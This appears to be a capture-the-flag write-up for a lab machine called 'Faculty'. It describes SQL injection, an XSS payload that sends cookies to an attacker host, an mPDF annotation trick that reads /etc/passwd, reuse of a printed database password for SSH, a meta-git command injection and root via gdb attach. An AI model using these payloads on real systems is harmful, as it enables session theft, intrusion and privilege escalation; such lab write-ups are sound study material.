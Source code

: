 # Faculty

![Faculty.png](Faculty/Faculty.png)

**Jul 2, 2022**

Login page on port 80

![Untitled](Faculty/Untitled.png)

This input has a SQL Injection vulnerability

Post request:

![Untitled](Faculty/Untitled%201.png)

File fuzzing on the application after login, using the cookie:

![Untitled](Faculty/Untitled%202.png)

There are some names in “faculty.php”.

![Untitled](Faculty/Untitled%203.png)

The admin page has a login input, we can try SQL Injection again:

![Untitled](Faculty/Untitled%204.png)

[https://www.cybersecuritywebtest.com/exploits-vulnerability/school~faculty~scheduling~system~1-48921](https://www.cybersecuritywebtest.com/exploits-vulnerability/school~faculty~scheduling~system~1-48921)

The XSS vulnerability on courses page can be applied:

![Untitled](Faculty/Untitled%205.png)

XSS trigged. 

![Untitled](Faculty/Untitled%206.png)

XSS cookie stealing.

```python
<img src=1 onerror=document.location="http://10.10.14.4/?"+document.cookie;>
```

![Untitled](Faculty/Untitled%207.png)

Dumping admin database with SQLMAP.

![Untitled](Faculty/Untitled%208.png)

Twitter mpdf report vulnerability

[https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f](https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f)

To explore just add a TAG to the POST request and set the extract file to download the data: The response is the generated file. 

![Untitled](Faculty/Untitled%209.png)

```jsx
<h1>aaaa</h1><annotation file="/etc/hosts" content=\"/etc/passwd\" icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" /><h1>im here</h1>
```

Find the tag in PDF and click on the yellow mark:

![Untitled](Faculty/Untitled%2010.png)

This “passwd” was extracted from the PDF yellow mark.

![Untitled](Faculty/Untitled%2011.png)

Users on the machine:

![Untitled](Faculty/Untitled%2012.png)

The “db_connect.php” has a password of the MYSQL database, we can try use this password with one of users to login o the SSH

![Untitled](Faculty/Untitled%2013.png)

The login with “gbyolo” worked with success!

```jsx
$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

gbyolo SSH session:

![Untitled](Faculty/Untitled%2014.png)

To migrate to the user developer the “sudo -l” command leak some information that our user gbyolo can run commands as developer user, we found a hackerone report that we can run arbitrary command using the meta-git.

[https://hackerone.com/reports/728040](https://hackerone.com/reports/728040)

![Untitled](Faculty/Untitled%2015.png)

The file was created as developer user.

![Untitled](Faculty/Untitled%2016.png)

After send the payload the developer user was spawned.

![Untitled](Faculty/Untitled%2017.png)

```jsx
sudo -u developer /usr/local/bin/meta-git clone 'sas||bash -p'
```

The user developer has an script that run with crontab.

![Untitled](Faculty/Untitled%2018.png)

### Root

There a GDB with debug permission.

![Untitled](Faculty/Untitled%2019.png)

We need to find a file running as root and try execute system commands:

![Untitled](Faculty/Untitled%2020.png)

Attach the GDB execution

```jsx
gdb attach PID
```

Now you just need to get a reverse shell or change the “/bin/bash” permission.

![Untitled](Faculty/Untitled%2021.png)